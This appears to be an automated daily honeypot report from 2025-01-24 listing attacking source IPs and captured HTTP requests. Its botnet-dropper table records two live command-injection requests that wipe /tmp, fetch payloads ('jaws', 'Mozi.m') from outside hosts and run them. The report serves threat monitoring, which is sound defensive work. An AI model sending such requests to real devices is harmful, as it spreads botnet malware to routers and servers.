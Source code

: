 ```yaml
---
title: "Report: 2025-01-24 "
date: 2025-01-24
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-01-24
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr   | request                                                                                                                                                                   |
|---:|:--------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 183.131.19.86 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                              |
|  1 | 59.89.8.229   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.89.2.26:38426/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   190 | 172.105.184.153 |
|   1 |                    45 | 102.211.152.45  |
|   2 |                    44 | 92.255.57.58    |
|   3 |                    35 | 78.153.140.224  |
|   4 |                    34 | 78.153.140.203  |
|   5 |                    31 | 5.181.190.248   |
|   6 |                    30 | 146.19.24.168   |
|   7 |                    26 | 78.153.140.147  |
|   8 |                    23 | 139.59.94.4     |
|   9 |                    22 | 179.43.191.146  |
|  10 |                    21 | 80.82.77.202    |
|  11 |                    18 | 46.19.138.234   |
|  12 |                    17 | 207.154.217.126 |
|  13 |                    17 | 139.59.128.48   |
|  14 |                    12 | 104.248.203.172 |
|  15 |                    12 | 188.166.110.23  |
|  16 |                    12 | 167.99.167.75   |
|  17 |                    12 | 164.52.24.188   |
|  18 |                    12 | 185.196.220.253 |
|  19 |                    12 | 162.243.230.217 |